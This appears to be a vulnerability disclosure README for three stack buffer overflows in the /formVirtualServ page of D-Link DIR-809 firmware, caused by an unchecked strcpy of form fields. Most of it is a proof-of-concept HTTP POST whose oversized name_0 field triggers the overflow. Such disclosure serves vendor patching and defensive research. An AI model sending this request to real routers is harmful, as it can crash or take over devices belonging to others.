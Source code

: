 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_09h01_44](README/2021-05-10_09h01_44.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![2021-05-09_20h27_04](README/2021-05-09_20h27_04.png)

![2021-05-09_20h33_14](README/2021-05-09_20h33_14.png)



## PoC

``` 
POST /formVirtualServ.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server.asp?t=1620556982214
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=sVlZzC4RHx
Connection: close

settingsChanged=1&curTime=1620557025736&HNAP_AUTH=B57888CD9D38113835E437CE4735DFC4+1620557025&submit-url=%2FAdvanced%2FVirtual_Server.asp&index=1&enabled_0=0&used_0=0&name_0=1231231231233*0x200&default_virtual_servers_0=-1&public_port_0=10000&public_port_to_0=10000&ip_0=192.168.0.34&computer_list_ipaddr_select_0=-1&private_port_0=10000&hidden_private_port_to_0=10000&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=1
```


